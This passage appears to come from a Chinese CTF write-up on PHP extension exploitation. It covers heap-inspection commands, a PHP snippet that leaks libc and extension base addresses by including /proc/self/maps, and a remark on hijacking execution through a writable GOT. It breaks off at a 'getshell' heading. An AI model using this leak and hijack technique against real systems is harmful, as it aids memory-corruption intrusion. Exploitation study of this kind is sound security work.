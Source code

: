 ##### pheap

查看最上层的堆信息：![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250411155511-6r48jx2.png)

##### psmall

查看small slot链表：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250411155547-krvuky3.png)

##### pelement

查看给定地址所属于的element（最终分配的堆块）

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250411155656-or0ipg7.png)

#### 参考链接

https://deepunk.icu/php-pwn/

https://www.imooc.com/article/51124

### 利用链

#### 泄露地址

php类题型一般能够通过`include`​包含文件，因此可以直接从`/proc/self/maps`​中读出地址（其实`vmmap`​命令就是在读这个文件）：

```php
function leakaddr($buffer){
    global $libc, $mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .*  \/usr\/local\/lib\/php\/extensions\/no-debug-non-zts-20230831\/numberGame.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}



ob_start("leakaddr");
include("/proc/self/maps");
$buffer = ob_get_contents();
ob_end_flush();
leakaddr($buffer);
```

#### 劫持执行流

一般而言，php拓展编译成动态链接库，默认编译选项下其got表是可写的，因此通常可以利用任意写劫持got表来劫持执行流。

#### getshell
